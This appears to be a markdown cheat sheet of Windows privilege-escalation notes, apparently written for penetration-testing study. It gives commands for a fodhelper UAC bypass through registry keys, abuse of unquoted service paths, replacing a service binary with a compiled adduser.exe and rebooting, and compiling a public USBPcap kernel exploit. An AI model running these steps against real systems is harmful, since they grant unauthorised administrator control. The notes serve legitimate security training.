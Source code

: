 # Privilege_Escalation_Windows

## reference

<https://www.fuzzysecurity.com/tutorials/16.html>

### LOLBAS

<https://lolbas-project.github.io/>

### PEASS-ng

<https://github.com/carlospolop/PEASS-ng>

```cmd
REG ADD HKCU\Console /v VirtualTerminalLevel /t REG_DWORD /d 1
```

### Sysinterals Suite

<https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite>

## information gathering

```cmd
systeminfo
whoami
net user
net user <username>

```

```powershell
Get-ComputerInfo
```

## UAC bypass

```cmd

Win10 build 1709, 1809 ...
C:\Windows\System32\fodhelper.exe

```cmd
sigcheck.exe -a -m c:\windows\system32\fodhelper.exe

REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command
REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /t REG_SZ
REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /d "cmd.exe" /f
```

## file permission

```powershell
Get-WmiObject win32_service | Select-Object Name, State, PathName | Where-Object {$_.State -like "Running"}
```

### space in the path & unclosed quotes

```cmd
C:\Program Files\VMware\VMware Tools\VMwareUser.exe

C:\Program.exe
C:\Program Files\VMware\VMware.exe
```

### full control file replacement

```bash
i686-w64-mingw32-gcc adduser.c -o adduser.exe
```

```cmd
icacls "C:\Program Files\Serviio\bin\ServiioService.exe"

move ServiioService.exe ServiioService.exe.bak
move adduser.exe "C:\Program Files\Serviio\bin\ServiioService.exe"

wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows\\"

whoami /priv
shutdown /r /t 0
net localgroup administrators
```

## kernel vulnerability

```cmd
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
driverquery /v
USBPcap
cd "C:\Windows\System32\drivers"
type USBPcap.inf
```

```bash
searchsploit USBPcap
USBPcap 1.1.0.0 (WireShark 2.2.5) - Local Privilege Escalation      |       windows/local/41542.c
i686-w64-mingw32-gcc 41542.c -o 41542.exe
```
